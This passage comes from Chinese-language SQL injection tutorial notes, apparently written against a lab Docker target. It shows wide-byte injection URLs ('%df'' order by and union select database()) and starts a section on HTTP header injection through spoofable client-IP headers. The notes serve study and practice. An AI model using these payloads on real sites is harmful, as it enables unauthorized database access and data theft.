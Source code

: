 http://113.45.183.x:32676/mysql-query_add.php?id=1%df'order by 3--+     使用宽字节注入5df和/组成運

![image-20240902164827-jtq9lfk](assets/image-20240902164827-jtq9lfk.png)

http://113.45.183.x:32676/mysql-query_add.php?id=%df'union select 1,database(),1--+

![image-20240902164858-mbcqikv](assets/image-20240902164858-mbcqikv.png)

---

以下注入方法属于其他方法

## HTTP头注入

Wb程序代码中把用户提交的HTTP请求包的头信息未做过滤就直接带入到数据库中执行。

dockerproxy.cn/etimeci/commonsqliexp

![image](assets/image-20240822145752-95cyuei.png)

<span data-type="text" style="color: var(--b3-font-color10);">$_SERVER['REMOTE_ADDR']	★	基于客户端与服务器建立的socket套接字连接，获取客户端的IP地址	 不可伪造  
 $_SERVER['HTTP_CLIENT_IP']  		通过http请求包内的client-ip字段获取IP 可伪造
 $_SERVER['HTTP_X_FORWARDED_FOR']	通过http请求包内的x-forwarded-for字段获取IP 可伪造</span>

超全局变量接收回来的数据是数组。

#### HTTP头注入的检测方法

通过<span data-type="text" style="color: var(--b3-font-color9);">修改参数</span>来判断是否存在漏洞
